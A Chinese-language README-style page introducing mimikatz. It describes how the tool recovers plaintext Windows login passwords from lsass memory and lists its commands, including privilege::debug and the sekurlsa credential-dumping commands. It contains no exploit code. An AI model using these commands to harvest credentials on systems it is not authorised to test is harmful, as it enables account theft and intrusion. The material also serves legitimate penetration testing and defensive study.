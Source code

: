 # mimikatz

mimikatz是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点也是让阿刚最感兴趣的就是他可以直接从 lsass中获取当前处于Active系统的登录密码， lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而mimikatz正是通过对lsass的逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

下面简单的介绍一下神器的命令

cls-----------------------------清屏
exit----------------------------退出
version------------查看mimikatz的版本
system::user-----查看当前登录的系统用户
system::computer-------查看计算机名称
process::list------------------列出进程
process::suspend 进程名称 -----暂停进程
process::stop 进程名称---------结束进程
process::modules --列出系统的核心模块及所在位置
service::list---------------列出系统的服务
service::remove-----------移除系统的服务
service::start stop 服务名称--启动或停止服务
privilege::list---------------列出权限列表
privilege::enable--------激活一个或多个权限
privilege::debug-----------------提升权限
nogpo::cmd------------打开系统的cmd.exe
nogpo::regedit -----------打开系统的注册表
nogpo::taskmgr-------------打开任务管理器
ts::sessions-----------------显示当前的会话
ts::processes------显示进程和对应的pid情况等
sekurlsa::wdigest-----获取本地用户信息及密码
sekurlsa::tspkg------获取tspkg用户信息及密码
sekurlsa::logonPasswords--获登陆用户信息及密码
在网上找了一篇，但是和我的工具不是一样

文章地址：http://www.2cto.com/article/201407/318229.html

ps:copy~

mimikatz是法国的一位神牛写的神器,该神器有很强大的功能,据说已经被集成在metasplo

1.常规的操作使用命令

mimikatz # cls -->清屏,类似dos命令cls.

mimikatz # exit -->退出mimikatz.

mimikatz #version -->查看当前的mimikatz的版本.

随便输入"xxx::"，会提示"modules:'xxx' intr0uvable",大概意思就是你输入的命令不存在，然后会列出所有可用的命令

mimikatz命令

查看列表中命令的具体参数同样可以输入"命令::"来查看，比如:"inject::",如图：

mimikatz使用方法

可以看到命令inject的具体参数有pid,process,service等……

2.系统方面的操作使用命令:system

mimikatz #system::user -->查看当前登录的系统用户

mimikazt #system::computer -->返回当前的计算机名称

3.在服务器终端的操作命令: ts

mimikatz #ts::sessions -->显示当前的会话

mimikatz #ts::processes windows-d.vm.nirvana.local -->显示服务器的进程和对应的pid情况等。

4.系统服务相关的操作使用命令:service

5.系统进程相关操作的使用命令:process

6.系统线程相关操作使用命令:thread

7.系统句柄相关操作使用命令:handle

8.加密相关操作使用命令:crypto

9.注入操作使用命令:inject

具体的各种神器功能使用有待神人挖掘，表示不会外文压力很大……

分享从lsass抓去系统的明文密码案例

